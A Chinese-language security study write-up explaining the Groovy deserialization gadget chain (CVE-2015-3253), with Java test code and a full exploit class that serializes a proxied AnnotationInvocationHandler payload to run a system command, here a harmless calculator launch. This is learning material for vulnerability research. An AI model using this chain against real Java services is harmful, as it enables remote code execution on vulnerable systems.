





# Java安全学习—Groovy链

Author: H3rmesk1t

Data: 2022.03.12

# Groovy 简介
[Apache Groovy](https://groovy-lang.org/#:~:text=Apache%20Groovy%20is,and%20functional%20programming.) is a powerful, optionally typed and dynamic language, with static-typing and static compilation capabilities, for the Java platform aimed at improving developer productivity thanks to a concise, familiar and easy to learn syntax. It integrates smoothly with any Java program, and immediately delivers to your application powerful features, including scripting capabilities, Domain-Specific Language authoring, runtime and compile-time meta-programming and functional programming.

# Groovy 反序列化漏洞 (CVE-2015-3253)
## 漏洞环境
`Groovy`反序列化漏洞(CVE-2015-3253), 该漏洞影响的范围是`Groovy 1.7.0-2.4.3`, 配置`pom.xml`文件, 添加如下依赖:

```xml
<dependencies>
    <dependency>
        <groupId>org.codehaus.groovy</groupId>
        <artifactId>groovy</artifactId>
        <version>2.4.1</version>
    </dependency>
</dependencies>
```


## 前置知识
### MethodClosure
`org.codehaus.groovy.runtime.MethodClosure`是方法闭包, 初始化时接收两个参数, 一个是对象, 一个是对象的方法名称. 跟进`doCall`方法, 其会调用`InvokerHelper#invokeMethod`方法, 来动态调用指定对象的指定方法.

<div align=center></div>

跟进`org.codehaus.groovy.runtime.InvokerHelper#invokeMethod`方法, 从方法的参数中可以看出, 第一个参数为调用方法的对象, 第二个参数为被调用执行的方法, 第三个参数的含义为该方法的所需要的参数.

```java
public static Object invokeMethod(Object object, String methodName, Object arguments) {
    if (object == null) {
        object = NullObject.getNullObject();
    }

    if (object instanceof Class) {
        Class theClass = (Class)object;
        MetaClass metaClass = metaRegistry.getMetaClass(theClass);
        return metaClass.invokeStaticMethod(object, methodName, asArray(arguments));
    } else {
        return !(object instanceof GroovyObject) ? invokePojoMethod(object, methodName, arguments) : invokePogoMethod(object, methodName, arguments);
    }
}
```

使用`MethodClosure`执行系统命令测试代码如下:

```java
package org.h3rmesk1t.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;
import java.lang.reflect.Method;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 2:01 下午
 */
public class GroovyExploit {

    public static void main(String[] args) throws Exception {

        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");
        Method method = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
        method.setAccessible(true);
        method.invoke(methodClosure, "open -a Calculator");
    }
}
```

<div align=center></div>

### String#execute
在`org.codehaus.groovy.runtime.ProcessGroovyMethods`中, `Groovy`为`String`类型添加了`execute`方法, 这个方法会返回一个`Process`对象. 因此, 在`Groovy`中, 可以直接使用`"ls".execute()`这种方法来执行系统命令`ls`.

<div align=center></div>

测试代码如下:

```java
package org.h3rmesk1t.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 2:01 下午
 */
public class GroovyExploit {

    public static void main(String[] args) throws Exception {

        MethodClosure methodClosure = new MethodClosure("open -a Calculator.app", "execute");
        methodClosure.call();
    }
}
```

<div align=center></div>

### ConvertedClosure
`org.codehaus.groovy.runtime.ConvertedClosure`是一个通用适配器, 用于将闭包适配到`Java`接口. `ConvertedClosure`实现了`ConversionHandler`类, 而`ConversionHandler`又实现了`InvocationHandler`, 因此`ConvertedClosure`本身就是一个动态代理类. 后面使用`AnnotationInvocationHandler`将`ConvertedClosure`代理成`Map`类, 进而进行反序列化.

```java
public class ConvertedClosure extends ConversionHandler implements Serializable {}

public abstract class ConversionHandler implements InvocationHandler, Serializable {}
```

`ConvertedClosure`的构造方法接收一个`Closure`对象和一个`String`类型的`method`方法名, 也就是说`ConvertedClosure`会代理这个`Closure`对象, 当调用其`method`方法时, 将会调用`ConvertedClosure`父类的`invoke`方法, 接着会调用`invokeCustom`方法.

```java
public class ConvertedClosure extends ConversionHandler implements Serializable {
    private String methodName;
    private static final long serialVersionUID = 1162833713450835227L;

    public ConvertedClosure(Closure closure, String method) {
        super(closure);
        this.methodName = method;
    }

    public ConvertedClosure(Closure closure) {
        this(closure, (String)null);
    }

    ......
}
```

```java
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    VMPlugin plugin = VMPluginFactory.getPlugin();
    if (plugin.getVersion() >= 7 && this.isDefaultMethod(method)) {
        ......
    } else if (!this.checkMethod(method)) {
        try {
            return this.invokeCustom(proxy, method, args);
        } catch (GroovyRuntimeException var6) {
            throw ScriptBytecodeAdapter.unwrap(var6);
        }
    } else {
        ......
    }
}
```

```java
public class ConvertedClosure extends ConversionHandler implements Serializable {
    ......
    public Object invokeCustom(Object proxy, Method method, Object[] args) throws Throwable {
        return this.methodName != null && !this.methodName.equals(method.getName()) ? null : ((Closure)this.getDelegate()).call(args);
    }
}
```

## EXP
```java
package org.h3rmesk1t.Groovy;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 2:01 下午
 */
public class GroovyExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void main(String[] args) throws Exception {

        // 封装需要执行的对象
        MethodClosure methodClosure = new MethodClosure("open -a Calculator", "execute");
        ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure, "entrySet");

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // 创建 ConvertedClosure 的动态代理类实例
        Map map = (Map) Proxy.newProxyInstance(ConvertedClosure.class.getClassLoader(), new Class[]{Map.class}, convertedClosure);
        
        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // 生成 exp
        String exp = serialize(invocationHandler);
        System.out.println(exp);
        // 触发 exp
        unserialize(exp);
    }
}
```

<div align=center></div>

## 调用链

```java
AnnotationInvocationHandler.readObject()
    Map.entrySet() (Proxy)
        ConversionHandler.invoke()
            ConvertedClosure.invokeCustom()
		        MethodClosure.call()
                    ProcessGroovyMethods.execute()
```

## 总结
### 利用说明
`AnnotationInvocationHandler`反序列化时调用`memberValues`中存放对象的`entrySet`对象, 这个对象是`ConvertedClosure`, 而这个对象又实际上是`MethodClosure`对象的代理, 定义了在调用`entrySet`方法时会调用`invoke`方法去调用`MethodClosure`的`call`方法, 触发`Groovy`中`String`类型的`execute`方法执行命令.

### Gadget
 - kick-off gadget: sun.reflect.annotation.AnnotationInvocationHandler#readObject
 - sink gadget: org.codehaus.groovy.runtime.MethodClosure#doCall
 - chain gadget: org.codehaus.groovy.runtime.ConvertedClosure#invokeCustom